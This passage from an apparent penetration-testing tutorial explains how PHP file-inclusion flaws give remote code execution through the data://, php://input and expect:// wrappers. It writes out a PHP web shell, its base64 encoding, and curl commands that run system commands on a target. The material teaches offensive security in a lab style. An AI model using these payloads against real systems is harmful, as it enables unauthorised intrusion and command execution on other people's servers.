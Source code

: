 So, our first step would be to base64 encode a basic PHP web shell, as follows:
```bash
$ echo '<?php system($_GET["cmd"]); ?>' | base64
PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==
```

Now, we can URL encode the base64 string, and then pass it to the data wrapper with data://text/plain;base64,. Finally, we can use pass commands to the web shell with &cmd=<COMMAND>:
```bash
$ curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
```

### Input
Similar to the data wrapper, the input wrapper can be used to include external input and execute PHP code. The difference between it and the data wrapper is that we pass our input to the input wrapper as a POST request's data. So, the vulnerable parameter must accept POST requests for this attack to work. Finally, the input wrapper also depends on the allow_url_include setting, as mentione

To repeat our earlier attack but with the input wrapper, we can send a POST request to the vulnerable URL and add our web shell as POST data. To execute a command, we would pass it as a GET parameter, as we did in our previous attack:
```bash
$ curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
```

`Note: To pass our command as a GET request, we need the vulnerable function to also accept GET request (i.e. use $_REQUEST). If it only accepts POST requests, then we can put our command directly in our PHP code, instead of a dynamic web shell (e.g. <\?php system('id')?>)`

### Expect
Finally, we may utilize the expect wrapper, which allows us to directly run commands through URL streams. Expect works very similarly to the web shells we've used earlier, but don't need to provide a web shell, as it is designed to execute commands.

However, expect is an external wrapper, so it needs to be manually installed and enabled on the back-end server, though some web apps rely on it for their core functionality, so we may find it in specific cases. We can determine whether it is installed on the back-end server just like we did with allow_url_include earlier, but we'd grep for expect instead, and if it is installed and enabled we'd get the following:
```bash
$ echo '<BASE64>' | base64 -d | grep expect
```

```bash
$ curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
```

# File Uploads
Image upload is very common in most modern web applications, as uploading images is widely regarded as safe if the upload function is securely coded. However, as discussed earlier, the vulnerability, in this case, is not in the file upload form but the file inclusion functionality.
